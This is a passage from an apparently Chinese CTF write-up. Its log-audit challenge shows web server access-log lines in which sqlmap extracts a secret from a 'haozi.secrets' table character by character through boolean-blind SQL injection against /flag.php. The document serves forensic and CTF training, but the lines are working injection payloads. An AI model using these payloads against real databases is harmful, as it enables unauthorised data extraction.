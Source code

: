 关注公众号：白帽子社区，回复关键字：BMZCTF 获取flag

BMZCTF{W3lc0me_t0_BMZCTF!}

## 日志审计

```
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),1,1))=102-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),2,1))=108-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),3,1))=97-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),4,1))=103-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),5,1))=123-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),6,1))=109-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),7,1))=97-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),8,1))=121-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),9,1))=105-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),10,1))=121-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),11,1))=97-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),12,1))=104-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),13,1))=101-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),14,1))=105-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),15,1))=49-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),16,1))=57-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),17,1))=54-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),18,1))=53-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
192.168.0.1 - - [13/Oct/2018:12:38:14  0000] "GET /flag.php?user=hence' AND ORD(MID((SELECT IFNULL(CAST(secret AS CHAR),0x20) FROM haozi.secrets ORDER BY secret LIMIT 0,1),19,1))=97-- pZaF HTTP/1.1" 200 327 "-" "sqlmap/1.2#pip (http://sqlmap.org)"
```